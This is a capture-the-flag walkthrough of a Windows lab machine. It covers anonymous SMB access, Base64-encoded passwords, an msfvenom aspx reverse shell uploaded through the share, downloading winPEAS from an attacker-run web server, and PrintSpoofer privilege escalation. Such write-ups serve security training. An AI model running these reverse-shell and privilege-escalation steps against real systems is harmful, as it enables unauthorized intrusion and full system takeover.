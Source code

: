 # Enumeration
We begin with an autorecon scan, followed up by a few nmap scans for more details.

![15d61fb9b05811213f117b226a76f645.png](./_resources/15d61fb9b05811213f117b226a76f645.png)

![9d631ea00e9f90fa6a0a2cf70433ac78.png](./_resources/9d631ea00e9f90fa6a0a2cf70433ac78.png)

![67acb4aecaa4d1cfc18ac88bb64940ab.png](./_resources/67acb4aecaa4d1cfc18ac88bb64940ab.png)

Enumerate SMB shares with `smbclient -L \\\\<target IP>
` and access the `nt4wrksv` share anonymously.

![e4ebbd285c7d0e5cbaa5f0eb03ae9105.png](./_resources/e4ebbd285c7d0e5cbaa5f0eb03ae9105.png)

![43237b73d7baed5573447c63534440c6.png](./_resources/43237b73d7baed5573447c63534440c6.png)

Transferring the `passwords.txt` over to our local machine with `get`, we see that it contains a brief list of encoded credentials.


```txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk   
```

This looks like Base64. Decoding reveals the credentials for a pair of users: Bob and Bill. Trying out the credentials for RDP with `xfreerdp /v:10.10.170.7 /u:'<user>' /p:'<password>'` gets us nowhere. For now, there doesn't seem to be anywhere we can use the credentials.

The http server on port 80 is just the default IIS Windows Server page. Gobuster does not reveal any directories. Note that http is also running on port 49663. Let's take a look. (**Note:** I had to reset my machine a couple of times, so the target IP will be different in some screenshots.)

Again, we are greeted with a default page. However, using gobuster to enumerate directories yields a new result: `/nt4wrksv/`, which it the name of the share we found earlier. (This string appears toward the end of the standard `directory-list-2.3-medium.txt` wordlist, so you may have to wait a while to see it.)

Nothing displays when we navigate to this directory. However, we know from before that the `nt4wrksv` share contained a `passwords.txt` file. If we navigate to `<target IP:49663/nt4wrksv/passwords.txt`, we see the contents of the passwords file.

![1c80130f96e02f45f75f82469e9eb197.png](./_resources/1c80130f96e02f45f75f82469e9eb197.png)

This is useful, since we may be able to upload a reverse shell script via the SMB share. Let's try uploading a test file.

![1c91dcef422644f7037a6547823d7a32.png](./_resources/1c91dcef422644f7037a6547823d7a32.png)

![7bf919d3437bf25ba2e6f1abf7a27a69.png](./_resources/7bf919d3437bf25ba2e6f1abf7a27a69.png)

Success!
<br>

# Exploitation
Now that we know we can upload files to the SMB share and then view them via the web server, let's try to upload a reverse shell script. The http version was Microsoft IIS 10.0, and a bit of [Googling](https://cheatsheet.haax.fr/windows-systems/exploitation/iis/) reveals that we should use an aspx shell. We will use msfvenom to generate the payload as follows:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f aspx > reverseshell.aspx`

![6e28076e9096ea476d0ff8a338a996ed.png](./_resources/6e28076e9096ea476d0ff8a338a996ed.png)

Now let's add it to the SMB share with `put`.

![dfa75efc304c581f1545ee519260b6eb.png](./_resources/dfa75efc304c581f1545ee519260b6eb.png)

Set up a netcat listener on the given port and navigate to the corresponding link on the port 49663 web server. After a few seconds, we catch the reverse shell, giving us initial access. From here, we can easily find the `user.txt` flag.

![c7e4ed909754ef884730d3bc696738c2.png](./_resources/c7e4ed909754ef884730d3bc696738c2.png)
<br>

# Post-Exploitation
Now let's look for privesc methods. We'll use [WinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220724) to see if we can get a quick win. Download it to the local machine and spin up a web server (in the same directory as the WinPEAS exe) using `python3 -m http.server`. On the Windows machine, switch to Powershell by typing `Powershell` and use
```PS
Invoke-WebRequest -OutFile winpeas.exe http://<attacker IP>:8000/winPEASx64.exe
```
to download the file.

![b725cc2a716ec4270950d27502f88a36.png](./_resources/b725cc2a716ec4270950d27502f88a36.png)

Now exit Powershell and run WinPEAS with `.\winpeas.exe`. This gives a nice summary of the machine as well as possible avenues for privesc. There's a lot to digest here, but thing we want to focus on is our current user's privileges.

![2ceaf3e27b072bc23fd6ddfacc3d7a87.png](./_resources/2ceaf3e27b072bc23fd6ddfacc3d7a87.png)

Note that we could have just found this information by using `whoami /priv`, but it's good practice to make use of a tool like winPEAS. Now, we see that two tokens are enabled, including the `SeImpersonatePrivilege` token which is often used for privesc in a Windows machine. There are a few tools we can use, some of which are listed [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens). Let's use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer). Grab the exe file from [here](https://github.com/dievus/printspoofer) and download it onto the Windows machine using the above method. (**Note**: My machine died again here, so the IP has changed.)

![c1008d8aa9d80ff74aa53b3eac34cb6d.png](./_resources/c1008d8aa9d80ff74aa53b3eac34cb6d.png)

Exit Powershell and run `.\PrintSpoofer.exe -i -c cmd`. This gives us a shell with root privileges, which we can use to find and read the `root.txt` flag.

![87a1d56a6216489993c60375c8bac914.png](./_resources/87a1d56a6216489993c60375c8bac914.png)

![8a9fcc810d25fa5a5fea40df27ff82a8.png](./_resources/8a9fcc810d25fa5a5fea40df27ff82a8.png)